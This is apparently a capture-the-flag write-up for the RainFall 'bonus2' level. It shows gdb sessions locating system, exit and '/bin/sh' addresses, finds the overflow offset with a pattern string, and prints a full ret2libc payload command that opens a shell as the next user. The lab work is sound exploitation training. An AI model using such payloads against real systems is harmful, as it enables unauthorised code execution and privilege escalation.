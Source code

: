 ## Flag Bonus2 README: Finding Flag Bonus2

After connection on our vm with:
```bash
ssh bonus2@localhost -p 4343
```

We found a binary named bonus2. When we run it we obtain:
```sh
bonus2@RainFall:~$ ./bonus2
Segmentation fault (core dumped)
bonus2@RainFall:~$
```

Okay next step, decompile this program in order to understand what's the purpose and how to exploit it.

As you can see in our file [source](../source), there is `main` and `greetuser`.
greatuser doest somthing easy, it just write specyfic message regarding the value of language into dest and add the first arg into the string then it writes it on STDOUT with puts.
Main is just for seeking the langage of the user.

So, our plan is to use `strcat` for a `buffer overflow` to do a `ret to libc`

Okay, as always, we have our receipe, now let's cook.

First let's try to find adresses of `system`, `exit` and `/bin/sh`.

```sh
(gdb) b main
Breakpoint 1 at 0x804852f
(gdb) r
Starting program: /home/user/bonus2/bonus2 

Breakpoint 1, 0x0804852f in main ()
(gdb) p system
$3 = {<text variable, no debug info>} 0xb7e6b060 <system>
(gdb) p exit
$4 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
(gdb) find &system,+9999999,"/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

Sum up:
- `system`: `0xb7e6b060`
- `exit`: `0xb7e5ebe0`
- `/bin/sh`: `0xb7f8cc58`

Okay we have our adresses. Next is to change the language cause when we find our payload, our lang was in fi.

```sh
export LANG=fi
```

After this, we need to find in witch address we need to overwrite.

So we try our best string

```sh
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09eA00eA01eA02eA03eA04eA05eA06eA07eA08eA09fA00fA01fA02fA03fA04fA05fA06fA07fA08fA09gA00gA01gA02gA03
Starting program: /home/user/bonus2/bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09eA00eA01eA02eA03eA04eA05eA06eA07eA08eA09fA00fA01fA02fA03fA04fA05fA06fA07fA08fA09gA00gA01gA02gA03
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAaA00aA01aA02aA03aA04aA05aA06aA07

Program received signal SIGSEGV, Segmentation fault.
0x41613430 in ?? ()
```

Okay so our adress value is: `0x41613430` which is `Aa40` but we are in little indien so the true value is: `04aA`

So we need to create a value of `18 bytes` plus our payload.

Okay let's make it !

`PAYLOAD = ./exec + argument1 + $(python -c 'print((random char * 18) +  + (address of system) + (address of exit) + (address of /bin/sh)')`

so the command to send is:

```sh
bonus2@RainFall:~$ ./bonus2 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA $(python -c 'print("\x90"*18 + "\x60\xb0\xe6\xb7" + "\xe0\xeb\xe5\xb7" + "\x58\xcc\xf8\xb7")')
Hyvää päivää AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA������������������`�����X���
$ whoami
bonus3
```

